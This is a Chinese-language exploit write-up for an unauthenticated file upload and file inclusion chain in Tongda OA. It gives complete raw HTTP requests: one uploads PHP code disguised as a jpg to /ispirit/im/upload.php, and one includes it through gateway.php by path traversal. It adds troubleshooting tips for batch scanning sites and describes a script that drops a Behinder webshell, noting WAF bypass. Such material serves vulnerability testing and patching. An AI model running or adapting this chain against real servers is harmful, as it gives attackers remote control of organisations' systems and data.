 # 1、漏洞描述

通达OA存在前台任意文件上传漏洞，结合文件包含，可直接获取服务器权限

# 2、影响范围

- 受影响的版本有：

V11版

2017版

2016版

2015版

2013增强版

2013版



- 受影响的文件上传漏洞文件：

/ispirit/im/upload.php



- 受影响的文件包含漏洞文件：

2013版（可能大多数遇到的是这个）：

/ispirit/interface/gateway.php



2017版：

/mac/gateway.php



# 3、本地环境搭建

下载其中一个受影响的版本安装包，直接傻瓜式下一步自动安装。



# 4、漏洞复现

具体源码审计分析就先不看了，漏洞利用具体分两步，第一先上传后缀为jpg、内容为任意（POC验证）或shell（EXP利用）的jpg图片，第二通过文件包含漏洞，将上传后的文件路径组合到POST传输的json格式的form表单之中，通过访问文件包含漏洞的php文件，即可组合实现漏洞验证/利用。

## 4.1、文件上传

坑点1：

Content-Type内容要标明为form表单，并且要有boundary，内容除了那四个-之外，可以自定义，不过要与POST表单中的一致。

![](images/1.png)

坑点2：

POST表单中，每一个表单与其内容之间要有回车换行，这是文件上传的固定格式，否则上传文件会失败。

表单的name值不要改，~~上边三个表单的内容2、123、1最好也别改，会影响返回的内容详细程度。~~

更正一下上边删除线的内容，这三个表单里的内容最好全部改为1，因为后边深入调试的时候，poc批量跑一些站，本来有漏洞的出现了漏报，因这里的数字导致返回不一致，详见坑点3.

脚本和下边的POST包中已更正这些坑点。

![](images/2.png)

坑点3：

这里后期调试的时候，批量跑了一些站，发现存在漏报，如下，这种的是存在漏洞的，但是因为坑点2中删除线中提到的表单内容，导致返回包没返回全，正则取值的时候，就漏掉了。

第二张图中是修正后的返回，其中1标识的是存在漏洞的，2标识的是不存在漏洞的。

脚本和下边的POST包中已更正这些坑点。

![](images/3.png)

![](images/4.png)

坑点4:

并不是第一步文件传上去了，就算成功了，上边总结的两个包含的php文件路径并不全，所以，也有可能文件传上去了，但是不知道或没有这个包含的php文件路径，也是白搭。调试中也遇到这个问题。


POST上传包：

```
POST /ispirit/im/upload.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypyfBh1YB4pV8McGB
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=000
Connection: close
Content-Length: 559


------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="UPLOAD_MODE"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
echo "this is a friendly test, Please check and repair upload vulnerabilities."
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

POST文件上传返回（这个返回内容代表上传成功）：

@符号与_ 之间的字符部分（不包含@与_ ）是一个目录名，_到第一个| 之间的字符部分（不包含_与| ）是文件名，后边需要用到这两个组合被文件包含的路径，文件后缀与上传的一致，为jpg

![](images/5.png)

## 4.2、文件包含

不同的通达OA版本，文件包含的php文件不同，一般有两种，详见2、影响范围，

这里就不用上边说的content-type了，将上边提到的目录名和文件名分别替换POST内容中的相应值即可，下边例子中是替换2108和773815306；

POST包：

```
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=000
Connection: close
Content-Length: 58

json={"url":"/general/../../attach/im/2108/773815306.jpg"}
```

坑点：

不知为何，请求没有问题的情况下，burpsuit没有返回上传的文件内容，而浏览器却可以；

![](images/6.png)

![](images/7.png)

# 5、脚本

支持poc与exp，配合框架，poc可批量，只返回有漏洞的url，同时返回漏洞被包含文件的form-data，方便验证。

exp只支持单个脚本使用，使用方法详见脚本最下方的注释，其中的webshell为冰蝎原始的，有waf的基本上都能拦截，绕waf另说。

